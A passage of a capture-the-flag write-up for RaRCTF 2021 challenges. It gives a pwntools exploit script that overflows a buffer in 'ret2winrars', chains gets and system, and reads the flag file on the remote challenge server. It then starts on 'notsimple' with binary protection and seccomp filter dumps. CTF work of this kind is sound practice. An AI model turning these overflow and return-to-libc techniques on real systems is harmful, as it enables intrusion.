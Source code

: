 

bof + return to system_plt

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = remote('193.57.159.27', 26141)
# r = process('./ret2winrars')
# gdb.attach(r, """
# b *0x401190
# """)

_system = 0x401040
gets = 0x401060
buf = 0x404800
pop_rdi_ret = 0x000000000040124b
ret = 0x0000000000401016

r.sendline(b'A'*0x28 + p64(gets)  + p64(_system))
sleep(0.1)
r.sendline("cat gla*\x00")

r.interactive()
```



### notsimple

```
// file
notsimple: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dd0632715e2d77268c26ceeeed68d752035768aa, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/Not_That_Simple/notsimple'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

seccomp:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x09 0x00 0x40000000  if (A >= 0x40000000) goto 0013
 0004: 0x15 0x08 0x00 0x0000003b  if (A == execve) goto 0013
 0005: 0x15 0x07 0x00 0x00000142  if (A == execveat) goto 0013
 0006: 0x15 0x06 0x00 0x00000101  if (A == openat) goto 0013
 0007: 0x15 0x05 0x00 0x00000003  if (A == close) goto 0013
 0008: 0x15 0x04 0x00 0x00000055  if (A == creat) goto 0013
 0009: 0x15 0x03 0x00 0x00000086  if (A == uselib) goto 0013
 0010: 0x15 0x02 0x00 0x00000039  if (A == fork) goto 0013
 0011: 0x15 0x01 0x00 0x0000003a  if (A == vfork) goto 0013
```
